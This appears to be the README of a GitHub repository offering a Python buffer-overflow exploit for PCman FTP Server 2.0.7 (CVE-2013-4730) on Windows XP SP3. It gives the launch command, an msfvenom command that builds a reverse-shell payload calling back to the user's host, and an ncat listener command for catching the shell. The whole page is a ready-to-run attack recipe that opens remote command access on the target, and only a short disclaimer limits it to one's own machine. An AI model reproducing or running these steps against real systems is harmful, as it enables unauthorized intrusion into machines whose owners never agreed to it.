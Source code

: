 # PCman FTP Server Buffer overflow and Remote Code Execution [CVE-2013-4730]
A very simple buffer overflow using CVE-2013-4730 against PCman's FTP server v.2.0.7
## How it works?
That easy BoF overwrite the buffer and execute the shellcode that will connect back (reverse shell)
## Vuln machines:
WindowsXP SP3 running PCman's FTP Server at version 2.0.7
## launch
````~$ python3 PCman.py <host> <port>````
## Repleace the shellcode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Launch netcat 
````~$ ncat -lvp <shellcode port>````
## Use only on your own machine!!
